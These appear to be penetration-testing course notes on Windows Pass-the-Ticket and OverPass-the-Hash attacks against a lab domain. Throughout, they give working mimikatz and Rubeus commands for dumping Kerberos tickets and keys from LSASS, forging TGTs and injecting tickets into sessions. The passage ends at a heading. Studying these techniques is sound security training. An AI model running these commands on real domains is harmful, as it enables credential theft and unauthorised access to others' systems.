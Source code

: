 ### Windows PtT

To execute PtT attack, we can use either the service ticket (from TGS), or TGT. TGT grants us access to a wider variety of resources allowed to the user.

Using `mimikatz`: `"privilege::debug" "sekurlsa::tickets /export"` will export tickets for all users (stored by LSASS) to a `.kirbi` file.

* Computer account tickets have names which end in `$`, while user tickets have a naming convention as follows: `[randomvalue]-username@service-domain.local.kirbi`.
* Tickets with `krbtgt` in the name correspond to the TGT of the account.

Using `Rubeus`: `dump /nowrap` will dump tickets in `base64` format instead. This could be a viable alternative to `mimikatz` as exported `.kirbi` tickets may not work as intended.

Note that we need to run both `mimikatz` and `Rubeus` as administrator for PtT to work.

#### Pass the Key/OverPass the Hash

Instead of using a non-Kerberos NTLM password hash, this approach converts a hash/key for a domain-joined user into a full TGT, which is used in PtH.

Using `mimikatz`: Dump Kerberos encryption keys using `sekurlsa::ekeys`. Look out for the `AES256_HMAC` and `RC4_HMAC` keys, which are used in a traditional PtH attack.

Using `Rubeus`: We can use `asktgt` to forge tickets. `asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap`.

* The key used can be `/rc4`, `/aes128`, `/aes256` or `/des`. These keys can be obtained from `mimikatz.exe "sekurlsa::ekeys"`.
* In this case, we do not need to run `Rubeus` as administrator.

#### Rubeus PtT

For example, to execute PtT by forging tickets from OverPass the hash, we can append `/ptt` to the end of the above command. This submits the ticket to the current session.

* Alternatively, we can import a `.kirbi` ticket from `mimikatz` using `ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi`.
* The ticket can also be submitted in `base64` format.

#### Mimikatz PtT

Use the `kerberos::ptt` module and the `.kirbi` file to import a ticket to the current session: `kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"`.

Note that if we run `mimikatz` interactively, we need to append `exit` to the end of our command in order for our command to execute correctly. For example, from `cmd.exe`, we run `mimikatz.exe "privilege::debug" "kerberos::ptt ..." exit` to allow `mimikatz` to load the ticket into the current `cmd.exe` session.

* To circumvent this, we can use the `misc::cmd` module to spawn a new window with the imported ticket.

#### PtT with PowerShell Remoting
